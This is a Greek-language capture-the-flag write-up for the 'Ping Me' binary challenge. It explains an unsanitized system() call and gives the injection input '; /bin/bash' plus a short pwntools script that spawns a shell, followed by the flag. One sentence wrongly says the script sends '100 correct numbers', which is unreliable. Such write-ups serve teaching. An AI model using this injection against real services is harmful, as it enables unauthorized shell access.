

# Ping Me Write-Up

| Δοκιμασία | Ping Me |
| :-------- | :----------------- |
| Δυσκολία  | Εύκολη             |
| Κατηγορία | Εκμετάλλευση Δυαδικών αρχείων (Binary Exploitation) |
| Λύσεις    | 33                 |
| Πόντοι    | 100                |

## Περιγραφή Δοκιμασίας

Ping this, ping that, ping everything..


## Ανάλυση Δοκιμασίας

Στη δοκιμασία αυτή μας δίνεται ένα εκτελέσιμο αρχείο ping-me, το οποίο μας ζητά να εισάγουμε μια IP διεύθυνση. Αν η IP είναι έγκυρη, τότε το πρόγραμμα εκτελεί την εντολή ping σε αυτή τη διεύθυνση. Στη συνέχεια, αν η εντολή ping εκτελεστεί επιτυχώς, μας δίνεται η δυνατότητα να προσθέσουμε επιπλέον ορίσματα και να εκτελέσουμε μια νέα εντολή

Το βασικό ζήτημα ασφαλείας εδώ είναι ότι το πρόγραμμα χρησιμοποιεί τη συνάρτηση system(), κάτι που μπορεί να οδηγήσει σε command injection.

## Επίλυση

### Εύρεση Ευπάθειας

Αναλύοντας το αρχείο σε ένα decomplier μπορούμε να δούμε το ψευδοκώδικα του συστήματος.

Κοιτάζοντας τον κώδικα, βλέπουμε ότι υπάρχει ένας έλεγχος για να διασφαλιστεί ότι η διεύθυνση IP που εισάγουμε είναι έγκυρη, χρησιμοποιώντας regex



Η IP ελέγχεται με regex, ώστε να αποτραπεί η είσοδος μη έγκυρων διευθύνσεων.

Ωστόσο, αφού το ping εκτελεστεί με επιτυχία, το πρόγραμμα επιτρέπει στον χρήστη να εισάγει επιπλέον ορίσματα, χωρίς να γίνεται κανένας έλεγχος στο input!


Εδώ το πρόβλημα είναι ότι το snprintf εισάγει απευθείας το input του χρήστη μέσα σε μια εντολή shell (system(command)) χωρίς απολύτως καθόλου sanitization.

### Command Injection

Μπορούμε να εκμεταλλευτούμε αυτή την ευπάθεια με command injection, προσθέτοντας έναν διαχωριστή εντολών (;) και εκτελώντας οποιαδήποτε εντολή θέλουμε.

## Εκμετάλλευση της Ευπάθειας

Για να εκμεταλλευτούμε την ευπάθεια, μπορούμε να δώσουμε τα παρακάτω inputs στο πρόγραμμα:

- Βήμα 1: Εισάγουμε μια έγκυρη IP, π.χ., 127.0.0.1
- Βήμα 2: Όταν μας ζητηθεί να προσθέσουμε επιπλέον ορίσματα, εισάγουμε:
```bash
; /bin/bash
```

Ο διαχωριστής `;` κλείνει την εντολή ping και εκτελεί το /bin/bash, δίνοντάς μας shell access στο σύστημα.

### Αυτοματοποίηση της διαδικασίας με Exploit

Αντί να το κάνουμε χειροκίνητα, μπορούμε να αυτοματοποιήσουμε την επίθεση με το ακόλουθο script:

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("./ping-me", checksec=False)

IP = "localhost"
PORT = 4242     

def start():
    return remote(IP, PORT) if args.REMOTE else process(elf.path)

def pwn():
    io = start()

    # Βήμα 1: Στέλνουμε μια έγκυρη IP
    io.sendline(b"127.0.0.1")
    sleep(3)

    # Βήμα 2: Κάνουμε command injection με "; /bin/bash"
    io.sendline(b"; /bin/bash")

    # Αλληλεπιδρούμε με το shell που αποκτήσαμε
    io.interactive()

if __name__ == "__main__":
    pwn()

```

Αυτό το script συνδέεται στο πρόγραμμα, παράγει τους 100 σωστούς αριθμούς και τους στέλνει αυτόματα.

## Ανάκτηση σημαίας

Αφού τρέξουμε το exploit remotely, αποκτούμε shell access και μπορούμε να ανακτήσουμε τη σημαία από το σύστημα.


## Σημαία

```
FLAG{1_d4r3_y0u_t0_p1ng_th3_un1v3rs3_4nd_c0nv1nc3_1t_t0_r3ply}
```
